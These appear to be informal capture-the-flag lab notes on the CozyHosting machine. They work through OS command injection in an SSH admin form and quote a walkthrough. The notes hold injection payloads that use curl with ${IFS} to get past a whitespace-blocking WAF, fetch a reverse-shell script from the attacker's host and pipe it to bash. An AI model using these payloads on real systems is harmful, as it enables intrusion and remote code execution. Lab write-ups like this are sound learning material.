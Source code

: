 
This is connected to the victim machine, on ubuntu. The hostname, that we need to refer is 127.0.0.1, it is the local host. In the input of the username we can put the payload, in this case, this guy uses curl, for download the file that we are going to put.
![[Screenshot_2023-09-08_14_25_34.png]]

The action of the form, its an "/executessh" and the method is "post". I dont know why this have this name... but it is like it is. And apparently  this makes me able to execute commands.

![[Screenshot_2023-09-08_14_29_42.png]]

So I created this payload
![[Screenshot_2023-09-08_14_35_25.png]]

And now... i must make  a python server.


This is what the guy says in his web walkthrough 
```
After a series of trial and error attempts, I discovered that using individual flags such as `-d` didn't yield the desired results, as they seemed to isolate commands from one another. Consequently, I opted to develop a Bash script named "revS.sh" and subsequently uploaded it to the target machine.

    #!/bin/bash
    echo base64EncodedPayload | base64 -d | bash
    
    chmod +x revS.sh
    // Then I saved and named it as revS.sh
    python3 -m http.server 8888
            

To get the payload from my machine I used the following OS command injection: `host=127.0.0.1&username=;$(curl{IFS}$MyIP:8888/revS.sh|bash)`  
`{IFS}` I used this because there was a WAF that blocked whitespaces  
`revS.sh` it's the payload I created earlier
```


Ok, this doesnt work so im not doing something ok...

y put this: 

on the first input (THIS CAN BE ANYTHING !! LIKE 123 AND IT WILL WORK TOO !!)
```
127.0.0.1
```
on the second one
```
root;`$curl${IFS}$10.10.16.45:8888/rev.sh|bash`
```

and this was the response on the website

```
http://cozyhosting.htb/admin?error=ssh:%20Could%20not%20resolve%20hostname%20root:%20Temporary%20failure%20in%20name%20resolution/bin/bash:%20line%201:%200.10.16.45:8888/rev.sh:%20No%20such%20file%20or%20directory/bin/bash:%20line%201:%20@127.0.0.1:%20command%20not%20found
```
